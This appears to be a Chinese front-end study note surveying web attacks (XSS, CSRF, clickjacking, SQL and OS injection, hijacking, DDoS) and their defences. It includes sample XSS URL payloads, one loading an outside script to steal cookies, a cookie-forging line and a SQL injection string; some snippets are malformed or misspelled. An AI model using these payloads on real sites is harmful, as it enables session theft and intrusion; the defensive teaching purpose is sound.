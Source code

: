 ```yaml
---
title: 常见的网络攻击手段
categories: 
  - 前端延展
  - 前端安全
  - 常见的网络攻击手段
tags: 
  - 常见的网络攻击手段
date: 2021-07-11 13:38:48
permalink: /pages/d1fdc6/
---
```


## XSS

跨站脚本攻击: 插入js代码

  影响:

    1. 利用虚假输入表单骗取用户个人信息
    2. 利用脚本窃取用户的cookie值,发起恶意请求
    3. 获取页面数据
    4. 劫持前端逻辑
    5. 发送请求
    6. 偷取网站的任意数据,用户资料,登录态
    7. 欺骗用户

* 反射性攻击 url 注入

      ```js
      // 基本
      localhost:3000?form=username
      // alert尝试
      localhost:3000?form=<script>alert(1)</script>
      // 获取cookie 引入其他js
      localhost:3000?form=<script src='localhost:4000/hack.js</script>'></script>
      // 短域名隐藏url
      https://diz.cn/ada
      // 伪造cookie
      document.cookie= '获取到的cookie'
      ```

* 读取型 存储到DB读取时注入: 把代码存储到数据库, 读取展示时执行 列:评论列表

防御:

* 启动xss过滤 `ctx.set('X-XSS-Protection')` 浏览器阻止页面加载
* CSP 内容安全策略 建立白名单
* 转义字符
* 黑名单 引号,尖括号,斜杠进行转义
* httponly js并不能读取 只有传输时有效

## CSRF

跨站请求伪造:利用已知的用户身份,发起恶意请求, 用户登录了A并本地记录了cookie, 被诱导登录B, B网站使用from表单模拟用户向A网站发送信息

危害:

* 利用用户的登录态,用户并不知情
* 发送业务请求,
* 盗用用户资金(转账,消费)
* 冒充用户进行非法勾当
* 损害网站声誉

防御:

* referer check -https不发送referer 确定是自己的网址来源你
* 验证码(防止静默发送,进行人机识别)
* cookie进行hash, 额外发送一个随机数

## 点击劫持

视觉欺骗,攻击者将被攻击网站通过iframe方式嵌套入自己的网页中,并将iframe是指为透明,在页面透出一个按钮诱惑用户点击

防御

* x-frame-option

      ```js
        // DENY 不允许通过iframe方式展示
        // SAMEORIGINN 当前页面可以在相同域名下通过iframe的方式展示
        // ALLOW-FROM 当前页面可以在指定来源的iframe中展示
        ctx.set('X-FRAME-OPTIONS', 'DENY')
      ```

* js方式

      ```js
        // self 是对当前窗口自身的引用 与window属性是等价的
        // top返回顶层窗口,及浏览器窗口
        if(self == top) {
          // 设置当前页面展示 移除 html {display:none} style
        }else {
          // 不是最顶层 设置最顶层为自身路径
          top.loction = self.loction
        }
      ```

## SQL

用户提交时,携带部分SQL代码 与服务端的查询代码 拼接成一个SQL语句 并可查询成功 密码输入 1' or '1' = '1

防御:

* 所有的查询语句,不直接拼接用户出入的语句, 使用参数化语句
* 设置最小应用权限
* 严格限制变量类型,检查输入数据是否符合预期,使用正则进行匹配
* 对数据库的特殊字符(',",\,<,>,&,*,;)进行转义或编码转换

## OS

与SQL类似,只不过SQL是针对数据库,OS是针对操作系统的, 通过web应用,执行非法的操作系统命令达到攻击的目的,只要在调用shell函数的地方就有存在被攻击的风险

## 请求劫持

* NDS劫持: DNS服务器被篡改

* HTTP劫持:运营商劫持:升级https

## DDOS

一大类攻击的总称

cc攻击 发送大量请求导致服务器宕机
SYN flood: 第二次握手之后: 客户端不进行回应, 造成服务端内存沾满
http flood: 高速刷新页面

防御:把备份网站,请求拦截,靠谱运营商,宽带扩容,提高犯罪成本
